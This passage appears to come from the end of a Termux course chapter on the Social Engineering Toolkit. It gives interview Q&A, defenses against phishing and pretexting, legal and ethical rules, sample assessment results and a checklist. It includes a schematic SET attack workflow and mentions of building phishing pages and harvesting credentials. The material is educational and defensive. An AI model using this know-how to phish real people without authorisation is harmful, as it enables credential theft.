Red Team Social Engineering
        ↓
Physical Security Testing
        ↓
Full Spectrum SE Operations
```

---

**🔥 CHAPTER 37 POWER UPGRADE COMPLETE! 🔥**

*Master Social Engineering. Train Defenders. Test Responsibly.*


---

## 🎯 INTERVIEW QUESTIONS - Job Preparation

### Q1: What is social engineering and how does it differ from technical hacking?
<details>
<summary>📋 Click for Answer</summary>

**Social Engineering** exploits human psychology rather than technical vulnerabilities.

**Key Differences:**

| Aspect | Technical Hacking | Social Engineering |
|--------|-------------------|-------------------|
| Target | Systems/Software | People |
| Method | Code/Exploits | Manipulation |
| Defense | Patches/Firewalls | Training/Awareness |
| Success Rate | Lower | Higher |

**Why SE is Effective:**
- Humans are often the weakest link
- No patch for human psychology
- Works regardless of technical security
- Can bypass all technical controls
</details>

### Q2: What are the common types of social engineering attacks?
<details>
<summary>📋 Click for Answer</summary>

**Attack Types:**

1. **Phishing:** Fake emails/websites
2. **Vishing:** Voice/phone attacks
3. **Smishing:** SMS-based attacks
4. **Spear Phishing:** Targeted attacks
5. **Whaling:** Executive targeting
6. **Pretexting:** False scenarios
7. **Baiting:** Physical media drops
8. **Tailgating:** Physical access
9. **Quid Pro Quo:** Exchange for information
10. **Watering Hole:** Compromised websites

**Most Effective:** Spear phishing with personalized content
</details>

### Q3: How do you defend against social engineering attacks?
<details>
<summary>📋 Click for Answer</summary>

**Defense Strategies:**

1. **Security Awareness Training:**
   - Regular training sessions
   - Simulated phishing tests
   - Update on latest threats

2. **Verification Procedures:**
   - Verify caller identity
   - Double-check email senders
   - Confirm unusual requests

3. **Technical Controls:**
   - Email filtering
   - Spam detection
   - Multi-factor authentication

4. **Policy Implementation:**
   - Clear security policies
   - Data handling procedures
   - Incident reporting

5. **Culture Building:**
   - Security-first mindset
   - No-blame reporting
   - Continuous improvement
</details>

### Q4: What makes a good social engineering assessment?
<details>
<summary>📋 Click for Answer</summary>

**Components of Effective SE Assessment:**

1. **Planning:**
   - Clear objectives
   - Defined scope
   - Legal authorization
   - Success criteria

2. **Reconnaissance:**
   - Target research
   - Organization analysis
   - Identify vectors

3. **Execution:**
   - Realistic scenarios
   - Multiple vectors
   - Documentation

4. **Reporting:**
   - Detailed findings
   - Evidence collection
   - Recommendations

5. **Remediation:**
   - Training recommendations
   - Policy updates
   - Technical improvements
</details>

### Q5: What legal considerations apply to social engineering testing?
<details>
<summary>📋 Click for Answer</summary>

**Legal Requirements:**

| Requirement | Description |
|------------|-------------|
| **Written Authorization** | Signed scope document |
| **Rules of Engagement** | Clear boundaries |
| **No Physical Harm** | Zero tolerance |
| **Data Protection** | Handle data responsibly |
| **Disclosure Rules** | Report findings properly |

**Red Lines:**
- No impersonation of law enforcement
- No actual financial theft
- No causing physical harm
- No unauthorized data exfiltration
- No harassment or threats

**Documentation Required:**
- Scope document
- Authorization letter
- Test methodology
- Findings report
</details>

### Q6: How does SET (Social Engineering Toolkit) work?
<details>
<summary>📋 Click for Answer</summary>

**SET Architecture:**

1. **Attack Vectors:**
   - Spear-phishing
   - Website attacks
   - Payload creation
   - Mass mailing

2. **Credential Harvesting:**
   - Clone websites
   - Custom templates
   - Data capture

3. **Payload Delivery:**
   - Infected files
   - Malicious links
   - Drive-by downloads

**Workflow:**
```bash
setoolkit
→ Select attack vector
→ Configure target
→ Launch attack
→ Collect results
```
</details>

### Q7: What are the warning signs of a phishing attempt?
<details>
<summary>📋 Click for Answer</summary>

**Red Flags:**

1. **Email Signs:**
   - Generic greetings
   - Urgent language
   - Spelling errors
   - Suspicious attachments
   - Mismatched URLs

2. **Technical Signs:**
   - Wrong sender domain
   - Unusual URLs
   - Request for credentials
   - Unexpected attachments

3. **Behavioral Signs:**
   - Pressure to act fast
   - Threats of consequences
   - Too good to be true offers
   - Requests for sensitive info

**Verification Steps:**
- Check sender address
- Hover over links
- Call to verify
- Report suspicious emails
</details>

### Q8: How do you create effective security awareness training?
<details>
<summary>📋 Click for Answer</summary>

**Training Components:**

1. **Content:**
   - Real examples
   - Current threats
   - Practical scenarios
   - Clear guidance

2. **Delivery:**
   - Interactive sessions
   - Regular intervals
   - Multiple formats
   - Assessments

3. **Reinforcement:**
   - Phishing simulations
   - Quick reminders
   - Security champions
   - Success stories

4. **Measurement:**
   - Training completion rates
   - Phishing click rates
   - Incident reports
   - Knowledge retention
</details>

### Q9: What is pretexting and how is it used?
<details>
<summary>📋 Click for Answer</summary>

**Pretexting** creates a fabricated scenario to obtain information.

**Common Pretexts:**
- IT support calls
- Bank verification
- Survey takers
- Job recruiters
- Vendor representatives

**Elements:**
1. Credible backstory
2. Authority position
3. Urgency factor
4. Information request

**Defense:**
- Verify identity independently
- Question unusual requests
- Follow verification procedures
</details>

### Q10: How do you measure the effectiveness of social engineering defenses?
<details>
<summary>📋 Click for Answer</summary>

**Key Metrics:**

| Metric | Target |
|--------|--------|
| Phishing click rate | < 5% |
| Report rate | > 50% |
| Training completion | 100% |
| Incident frequency | Decreasing |

**Assessment Methods:**
1. Phishing simulations
2. Security quizzes
3. Incident tracking
4. Behavioral analysis

**Reporting:**
- Monthly reports
- Trend analysis
- ROI calculations
- Continuous improvement
</details>

---

## 🔥 REAL-WORLD SCENARIOS

### Scenario 1: Corporate Phishing Assessment
```
╔═══════════════════════════════════════════════════════════════════════════╗
║                   CORPORATE PHISHING ASSESSMENT                             ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                            ║
║  OBJECTIVE: Test employee awareness with simulated phishing attacks         ║
║                                                                            ║
║  SCOPE: 500 employees across 3 departments                                 ║
║                                                                            ║
║  ATTACK VECTORS USED:                                                       ║
║  1. Email phishing - Fake IT password reset                               ║
║  2. Spear phishing - Targeted executive impersonation                      ║
║  3. Smishing - Fake delivery notification                                 ║
║                                                                            ║
║  RESULTS:                                                                   ║
║  • 23% clicked phishing links                                              ║
║  • 12% entered credentials                                                ║
║  • 45% reported suspicious emails                                          ║
║  • Average time to click: 4 minutes                                       ║
║                                                                            ║
║  RECOMMENDATIONS:                                                           ║
║  • Quarterly training sessions                                            ║
║  • Monthly phishing simulations                                           ║
║  • Improved email filtering                                               ║
║  • Executive-focused training                                             ║
║                                                                            ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 2: Physical Security Assessment
```
╔═══════════════════════════════════════════════════════════════════════════╗
║                   PHYSICAL SECURITY ASSESSMENT                              ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                            ║
║  OBJECTIVE: Test physical security controls through SE                     ║
║                                                                            ║
║  METHODS USED:                                                              ║
║  • Tailgating attempts                                                    ║
║  • Impersonation (IT support)                                             ║
║  • Lost USB drive drops                                                   ║
║  • Phone-based pretexting                                                 ║
║                                                                            ║
║  FINDINGS:                                                                  ║
║  • 67% tailgating success rate                                            ║
║  • 40% gave credentials over phone                                        ║
║  • 35% plugged in unknown USB                                             ║
║  • No verification procedures in place                                    ║
║                                                                            ║
║  REMEDIATION:                                                               ║
║  • Security awareness training                                            ║
║  • Visitor management system                                              ║
║  • USB policy enforcement                                                ║
║  • Verification protocols                                                 ║
║                                                                            ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

---

## ⚠️ SECURITY BEST PRACTICES

### ✅ DO's - Ethical SE Testing

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                         SECURITY DO's                                        │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│  ✅ ALWAYS get written authorization                                       │
│  ✅ DEFINE clear scope and boundaries                                      │
│  ✅ DOCUMENT all activities                                                │
│  ✅ PROTECT collected data                                                 │
│  ✅ REPORT findings responsibly                                            │
│  ✅ INCLUDE remediation guidance                                           │
│  ✅ FOLLOW ethical guidelines                                              │
│  ✅ RESPECT human dignity                                                  │
│  ✅ MAINTAIN confidentiality                                               │
│  ✅ OBTAIN informed consent when needed                                    │
│                                                                              │
│  BEST PRACTICE: Put people first, security second                          │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

### ❌ DON'Ts - Avoid These Mistakes

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                         SECURITY DON'Ts                                      │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│  ❌ NEVER test without authorization                                       │
│  ❌ NEVER cause emotional distress                                         │
│  ❌ NEVER steal actual data                                                │
│  ❌ NEVER impersonate law enforcement                                       │
│  ❌ NEVER make threats                                                      │
│  ❌ NEVER test outside scope                                               │
│  ❌ NEVER share findings publicly                                          │
│  ❌ NEVER compromise user accounts                                         │
│  ❌ NEVER ignore legal boundaries                                          │
│  ❌ NEVER forget human impact                                              │
│                                                                              │
│  WARNING: SE testing must be ethical and legal                              │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

## 📊 ARCHITECTURE DIAGRAMS

### Diagram 1: Social Engineering Attack Lifecycle

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                    SOCIAL ENGINEERING ATTACK LIFECYCLE                        │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                    PHASE 1: RECONNAISSANCE                          │    │
│   │  ┌──────────────────────────────────────────────────────────────┐ │    │
│   │  │ • Target identification                                     │ │    │
│   │  │ • Information gathering                                     │ │    │
│   │  │ • Vulnerability analysis                                    │ │    │
│   │  └──────────────────────────────────────────────────────────────┘ │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│                                      │                                       │
│                                      ▼                                       │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                    PHASE 2: PLANNING                                │    │
│   │  ┌──────────────────────────────────────────────────────────────┐ │    │
│   │  │ • Select attack vector                                      │ │    │
│   │  │ • Create pretext                                            │ │    │
│   │  │ • Prepare materials                                         │ │    │
│   │  └──────────────────────────────────────────────────────────────┘ │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│                                      │                                       │
│                                      ▼                                       │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                    PHASE 3: EXECUTION                               │    │
│   │  ┌──────────────────────────────────────────────────────────────┐ │    │
│   │  │ • Launch attack                                            │ │    │
│   │  │ • Monitor response                                         │ │    │
│   │  │ • Document results                                         │ │    │
│   │  └──────────────────────────────────────────────────────────────┘ │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│                                      │                                       │
│                                      ▼                                       │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                    PHASE 4: REPORTING                               │    │
│   │  ┌──────────────────────────────────────────────────────────────┐ │    │
│   │  │ • Analyze findings                                         │ │    │
│   │  │ • Document evidence                                        │ │    │
│   │  │ • Provide recommendations                                 │ │    │
│   │  └──────────────────────────────────────────────────────────────┘ │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

## 📝 CHAPTER SUMMARY CHECKLIST

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                      CHAPTER 37 COMPLETION CHECKLIST                         │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│  CORE CONCEPTS:                                                              │
│  ☐ Understood social engineering fundamentals                               │
│  ☐ Learned attack types and vectors                                         │
│  ☐ Installed SET via proot-distro                                          │
│  ☐ Mastered credential harvesting                                          │
│                                                                              │
│  PRACTICAL SKILLS:                                                           │
│  ☐ Created phishing pages                                                   │
│  ☐ Configured SET modules                                                   │
│  ☐ Performed credential harvesting                                          │
│  ☐ Documented findings                                                      │
│                                                                              │
│  SECURITY AWARENESS:                                                         │
│  ☐ Understand SE defense strategies                                         │
│  ☐ Know warning signs of attacks                                           │
│  ☐ Can implement training programs                                         │
│  ☐ Follow ethical guidelines                                               │
│                                                                              │
│  FINAL ASSESSMENT:                                                           │
│  ☐ Completed all quiz questions                                             │
│  ☐ Reviewed interview questions                                             │
│  ☐ Understood real-world scenarios                                          │
│  ☐ Ready for Chapter 38: WiFi Security Tools                                │
│                                                                              │
│  SCORE: _____/20 items completed                                            │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

**Chapter 37: Social Engineering Toolkit - Complete! 🎉**

*Enhanced content added for comprehensive learning experience*
*Created by T3rmuxk1ng | Termux Full Course*
